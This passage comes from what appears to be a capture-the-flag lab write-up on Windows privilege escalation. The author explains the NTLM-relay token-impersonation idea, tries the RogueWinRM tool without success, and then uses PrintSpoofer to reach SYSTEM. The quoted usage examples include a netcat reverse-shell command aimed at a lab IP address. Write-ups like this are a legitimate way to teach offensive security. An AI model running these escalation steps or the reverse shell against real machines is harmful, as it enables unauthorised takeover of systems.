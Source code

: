 Luckily there is a link that explains this in-depth, [here]().

> **The idea behind this vulnerability is simple to describe at a high-level**:  
>  1. Trick the “NT AUTHORITY\SYSTEM” account into authenticating via NTLM to a TCP endpoint we control. 
>  2. Man-in-the-middle this authentication attempt (NTLM relay) to locally negotiate a security token for the “NT AUTHORITY\SYSTEM” account. This is done through a series of Windows API calls. 
>  3. Impersonate the token we have just negotiated. This can only be done if the attacker's current account has the privilege to impersonate security tokens. This is usually true of most service accounts and not true of most user-level accounts.


I'm not sure if we should proceed with that, it could very well be another decoy. Let me research around a bit more to see if there is any other way to exploit the same.

There is a tool for this, called **RogueWinRM** located [here](https://github.com/antonioCoco/RogueWinRM) that looks interesting and pretty straightforward.
Let's reopen our rev shell session, upload the exploit, and try to execute it.

Yup, it does not work. After I few tries I get the target is not exploitable by this exploit:

```sh
Listening for connection on port 5985 .... 
Error: WinRM already running on port 5985. Unexploitable!
bind failed with error: 10013
```

Let's google some more and see if there is another tool out there. It seems there is another similar tool called **PrintSpoofer** that you can get [here](https://github.com/itm4n/PrintSpoofer).

I'm gonna quickly try this one as well, I downloaded `PrintSpoofer64.exe` and upload it to the server.

we get some examples of how privesc with this tool:

```sh
Examples:
  - Run PowerShell as SYSTEM in the current console
      PrintSpoofer.exe -i -c powershell.exe
  - Spawn a SYSTEM command prompt on the desktop of the session 1
      PrintSpoofer.exe -d 1 -c cmd.exe
  - Get a SYSTEM reverse shell
      PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"
```

We know Powershell is installed, let's try that route by running: `PrintSpoofer64.exe -i -c powershell.exe`

It works! we have gained SYSTEM privileges

![We got root!](https://i.imgur.com/lKWNMAp.png)

I can't fucking believe this, the VM died on my again!! right after the last step... :cry:
![](https://media1.tenor.com/images/f723172484bf2e43ab1e7d3aa358d267/tenor.gif?itemid=14035982)

I guess this room is a lesson on patience, perseverance, and decoy detection... Let's terminate and redeploy.
